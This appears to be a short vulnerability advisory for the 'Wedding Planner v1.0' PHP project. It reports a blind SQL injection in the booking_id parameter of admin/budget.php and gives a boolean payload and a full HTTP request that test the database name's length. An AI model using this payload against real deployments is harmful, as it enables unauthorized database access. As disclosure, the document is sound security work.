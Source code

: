 # Wedding Planner v1.0 by pushpam02 has SQL injection 

BUG_Author: Ptanly

vendor: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/admin/budget.php?booking_id=

Vulnerability url: http://ip/Wedding-Management-PHP/admin/budget.php?booking_id=

[+] Payload: /Wedding-Management-PHP/admin/budget.php?booking_id=31%20and%20length(database())%20=9&user_id=31 // Leak place ---> booking_id

dbname = dbwedding,length is 9

```sql
GET /Wedding-Management-PHP/admin/budget.php?booking_id=31%20and%20length(database())%20=9&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
```

When length (database ()) = 8
![image](https://user-images.githubusercontent.com/54017627/183276494-66d3a91c-2d08-45d9-94e1-bf1640dae101.png)


When length (database ()) = 9
![image](https://user-images.githubusercontent.com/54017627/183276503-1941885a-ce57-46c3-beab-9dd12a031746.png)
